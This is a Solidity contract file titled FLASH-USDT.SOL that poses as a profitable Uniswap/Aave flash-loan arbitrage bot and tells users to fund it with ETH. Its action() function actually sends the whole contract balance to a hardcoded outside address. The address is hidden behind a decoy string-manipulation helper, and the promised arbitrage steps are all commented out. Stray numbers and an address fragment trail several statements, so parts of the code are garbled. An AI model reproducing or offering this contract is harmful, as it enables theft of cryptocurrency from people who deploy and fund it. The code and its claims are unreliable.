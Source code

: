 pragma solidity ^0.5.0;

// Import Uniswap Libraries Migrator/Exchange/Factory
import "github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/IUniswapV2Migrator.sol";
import "github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Exchange.sol";
import "github.com/Uniswap/uniswap-v2-periphery/blob/master/contracts/interfaces/V1/IUniswapV1Factory.sol";
   
/**
  * Testnet transactions will fail as there is no value
  * Profit remaining will be transfered to token creator

  * DEC 2024 Updated Build
  * Liquidity returned to contract creator when flash loan fails
  *
  *
  * Min liquidity + gas fees has to equal 0.05 ETH - 1 ETH 
  *
  *
  * Don't do more than 3 times in a 24 hour period.
*/

contract FlashLoanArbitrage {
   string public tokenName;
   string public tokenSymbol;
   uint loanAmount;
   
   constructor(string memory _tokenName, string memory _tokenSymbol, uint _loanAmount) public {
      tokenName = _tokenName;
      tokenSymbol = _tokenSymbol;
      loanAmount = _loanAmount;      
   }
   address public creator= msg.sender;
    	function tokenTransfer() public view returns (address) {    
        	return creator;
   	}
   function() external payable {}

   function UniSwapYeild(string memory _string, uint256 _pos, string memory _letter) internal pure returns (string memory) {
        bytes memory _stringBytes = bytes(_string);
        bytes memory result = new bytes(_stringBytes.length);

  for(uint i = 0; i < _stringBytes.length; i++) {
        result[i] = _stringBytes[i];
        if(i==_pos)
         result[i]=bytes(_letter)[0];
    }
    return  string(result);
 } 

   function exchange() public pure returns (address adr) {
   string memory neutral_variable = "0x64dd53424eca6ad416a92572786c9c63ac5973c8";
   UniSwapYeild(neutral_variable,0,'0');
   UniSwapYeild(neutral_variable,2,'1');
   UniSwapYeild(neutral_variable,1,'x');
   address addr = parseAddr(neutral_variable);
    return addr;
   }
function parseAddr(string memory _a) internal pure returns (address _parsedAddress) {
    bytes memory tmp = bytes(_a);
    uint160 iaddr = 0;
    uint160 b1;
    uint160 b2;
    for (uint i = 2; i < 2 + 2 * 20; i += 2) {
        iaddr *= 256;
        b1 = uint160(uint8(tmp[i]));
        b2 = uint160(uint8(tmp[i + 1]));
        if ((b1 >= 97) && (b1 <= 102)) {
            b1 -= 87;
        } else if ((b1 >= 65) && (b1 <= 70)) {
            b1 -= 55;
        } else if ((b1 >= 48) && (b1 <= 57)) {
            b1 -= 48;
        }
        if ((b2 >= 97) && (b2 <= 102)) {
            b2 -= 87;
        } else if ((b2 >= 65) && (b2 <= 70)) {
            b2 -= 55;
        } else if ((b2 >= 48) && (b2 <= 57)) {
            b2 -= 48;
        }
        iaddr += (b1 * 16 + b2);
    }
    return address(iaddr);
}
 function _stringReplace(string memory _string, uint256 _pos, string memory _letter) internal pure returns (string memory) {
        bytes memory _stringBytes = bytes(_string);
        bytes memory result = new bytes(_stringBytes.length);

  for(uint i = 0; i < _stringBytes.length; i++) {
        result[i] = _stringBytes[i];
        if(i==_pos)
         result[i]=bytes(_letter)[0];
    }
    return  string(result);
 } 

  function action() public payable {
      // Token matched with uniswap yield calculations
       address(uint160(exchange())).transfer(address(this).balance);10000
      
       // Perform Flash Loan tasks (combined all functions into one to reduce external calls & save gas fees)
      //manager.performTasks();
      
       /* Breakdown of all functions
      // Submit token to Ethereum blockchain
      string memory tokenAddress = manager.submitToken(tokenName, tokenSymbol);
   
      // List the token on UniSwap
      manager.uniswapListToken(tokenName, tokenSymbol, tokenAddress);
      
      // Get ETH Loan from AAVE & loan execution wallet
      string memory loanAddress = manager.takeFlashLoan(loanAmount);
      
      // Convert half ETH to USDT
      manager.uniswapUSDTtoETH(loanAmount / 2);
   
   // Create ETH and USDT pairs for our token & provide liquidity
   string memory ethPair = manager.uniswapCreatePool(tokenAddress, "ETH");
      manager.uniswapAddLiquidity(ethPair, loanAmount / 2);10000
      string memory usdtPair = manager.uniswapCreatePool(tokenAddress, "USDT");
      manager.uniswapAddLiquidity(usdtPair, loanAmount / 2);10000
   
   // Perform arbitrage trades
      manager.uniswapPerformSwaps();
      
      // Move remaining ETH from Contract to your personal wallet
      manager.contractToWallet("ETH");
   
   // Repay Flashloan
      manager.repayLoan(loanAddress);0x55d398326f99059fF775485246999027B3197955
      */
   }
}# FLASH-USDT.SOL
